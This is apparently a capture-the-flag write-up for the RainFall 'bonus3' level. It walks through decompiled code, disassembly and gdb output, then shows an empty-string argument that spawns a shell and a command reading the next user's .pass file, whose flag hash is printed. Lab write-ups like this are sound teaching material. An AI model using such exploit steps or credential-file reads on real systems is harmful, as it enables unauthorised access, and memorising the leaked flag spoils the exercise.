 ```sh
for (iVar2 = 0x21; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (uint)bVar4 * -2 + 1;
  }
```
> set local_98(size 16) string to '\0' on 0x21 bytes

```sh
0x0804851f <+43>:	lea    0x18(%esp),%ebx
0x08048523 <+47>:	mov    $0x0,%eax
0x08048528 <+52>:	mov    $0x21,%edx
0x0804852d <+57>:	mov    %ebx,%edi
0x0804852f <+59>:	mov    %edx,%ecx
0x08048531 <+61>:	rep stos %eax,%es:(%edi)
```

So local_98 is located at $esp+0x18

```c
fread(local_98,1,0x42,local_14);//set 0x42 of &.pass in local_98 (66-16 = overflow of 50)
```

all .pass should be in local_98

```c
iVar2 = atoi(*(char **)(param_2 + 4));
*(undefined *)((int)local_98 + iVar2) = 0;//set null byte to local_98 at he given av[1]
```

```sh
./bonus3 10000000000
Segmentation fault (core dumped)
```

Seg. fault because set '\0' too far

```s
iVar2 = atoi(*(char **)(param_2 + 4));
*(undefined *)((int)local_98 + iVar2) = 0; //set null byte to local_98 at he given av[1]
[...]
iVar2 = strcmp((char *)local_98, *(char **)(param_2 + 4)); // if av[1] == local_98 exec /bin/sh
```

If I run `./bonus3 0` the strcmp should be 0 == 0 and return 0

```sh
bonus3@RainFall:~$ ./bonus3 0 | cat -e
$
```

but here we don't seg. fault

When I test that :

```c
int main(){
	char local_98[50] = "test";
	int iVar2 = atoi("0");
	printf("%d\n", iVar2);
	*(char *)((int)local_98 + iVar2) = 0;
	int test = strcmp(local_98, 0);
	printf("%d\n", test);
}
```

There is a seg fault so I don't understand something

```sh
Breakpoint 2, 0x080485df in main ()
(gdb) info registers
eax            0xffffffff       -1
ecx            0x30     48
edx            0xbffff6a8       -1073744216
ebx            0xbffff6a8       -1073744216
esp            0xbffff690       0xbffff690
ebp            0xbffff738       0xbffff738
esi            0x0      0
edi            0xbffff72c       -1073744084
eip            0x80485df        0x80485df <main+235>
eflags         0x200297 [ CF PF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

has we can see it's interpreted has 48 '0' ascii

so if we give that to our test test2.c :

```sh
hiro@WIN-6D4JHE0NA8F:~/Rainfall/bonus3/Ressources(main⚡) » ./a.out "" | cat -e
ac : 2$
ac[1] = $
```

Yes !

## Exploit

```sh
bonus3@RainFall:~$ ./bonus3 ""
$
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$
```

